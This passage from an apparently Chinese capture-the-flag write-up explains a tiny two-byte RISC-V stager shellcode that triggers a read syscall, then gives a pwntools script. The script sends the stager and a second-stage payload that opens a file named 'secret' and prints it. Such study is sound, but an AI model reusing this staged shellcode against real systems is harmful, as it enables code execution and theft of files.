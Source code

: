 ```
$t6  : 0x0000000000072000  →  0x0000000000000000  →  0x0000000000000000
```

其中，`$a0 = 4`，为`read`函数的返回值，表示标准输入的长度，`$a0`的值等于`$a5`，指向了存放shellcode的内存，`$a2 = 0x1000`，表示读取的长度，`$a7`等于0x37，对于`riscv64`价格，`$a7 = 0x37`，然后调用`ecall`指令，表示执行`read`系统调用。

所以上面那3字节的shellcode做的事就是，`$a &amp; 0x1a`，因为输入的长度为3，所以是`3 &amp; 0x1a = 2`，然后调用`ecall`，执行的就是`read(2, 0x0000004000801000, 0x1000)`。实际的shellcode就能通过第二次输入到内存中。

3字节的shellcode还不是最短的，还能继续优化，只需要修改`$a0=2`，那么只需要输入2字节的shellcode就能让`$a0`的值等于2，所以最短的shellcode为`7300`

下面放一个使用2字节的shellcode脚本：

```
#!/usr/bin/env python3
# -*- coding=utf-8 -*-

from pwn import *
import time

context.log_level = "debug"
p = remote("10.11.34.96", 9090)
# p = remote("192.168.11.4", 9090)
shellcode1 = b"7300"
# shellcode1 = b"000000ca00080091210000d4"  # aarch64
shellcode2 = """
li     s1, 0x746572636573
sd     s1, 0(sp)
mv     a1, sp     
li     a7, 56
li     a0, -100
ecall
li     a7, 71
mv     a1, a0
li     a0, 1
li     a2, 0
li     a3, 100
ecall
"""
shellcode2 = asm(shellcode2, arch="riscv", bits=64)

shellcode2 = b"s\x00\x00\x00" + shellcode2

p.readuntil(b"shellcode:")
p.sendline(shellcode1)
pause()
p.send(shellcode2)
p.interactive()
```

结果如图所示：

[![](https://p2.ssl.qhimg.com/t01cda0df704feed959.png)](https://p2.ssl.qhimg.com/t01cda0df704feed959.png)
